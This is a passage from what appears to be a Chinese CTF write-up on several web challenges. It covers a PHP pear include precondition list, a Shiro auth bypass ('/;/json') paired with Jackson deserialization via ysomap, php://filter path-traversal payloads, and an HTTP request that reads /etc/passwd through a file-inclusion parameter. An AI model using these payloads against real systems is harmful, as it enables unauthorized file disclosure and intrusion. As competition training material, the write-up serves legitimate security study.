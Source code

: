 


### 前提

- 安装了pear
- 开启了register*argc*argv
- 存在可控的`include $_GET['f']`(即使是`include $_GET['f'].php`)



`https://blog.szfszf.top/article/57/`



## Jackson

`https://ctf.njupt.edu.cn/713.html`

先看题目给的pom.xml

有shiro1.5.1，cc3.2.1题目名字叫jackson

那么应该就是shiro验证绕过访问路由通过jackson反序列化打cc链

发现有json路由需要登陆通过`/;/json`绕过

直接上工具ysomap用cc8去打

`https://www.huamang.xyz/index.php/archives/99/`





## **EasyFilter**

```
http://124.70.181.14:32766/?action=r&r=convert.base64-decode/../e159c22e4f
```



![image-20211024130950921](https://gitee.com/taochiyu/blogimage/raw/master/img/20211024130958.png)



```
php://filter/resource=./files/convert.base64-decode/../e159c22e4f
```

![image-20211024131150216](https://gitee.com/taochiyu/blogimage/raw/master/img/20211024131150.png)



![image-20211024131220064](https://gitee.com/taochiyu/blogimage/raw/master/img/20211024131220.png)

## **new_hospital**

`view-source:http://123.60.75.243:32766/feature.php?id=2`

```
GET /old/feature.php?id=/etc/passwd HTTP/1.1
Host: 123.60.75.243:32766
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: API=L3Zhci93d3cvaHRtbC9mbGFnLnBocA%3D%3D
Connection: close
```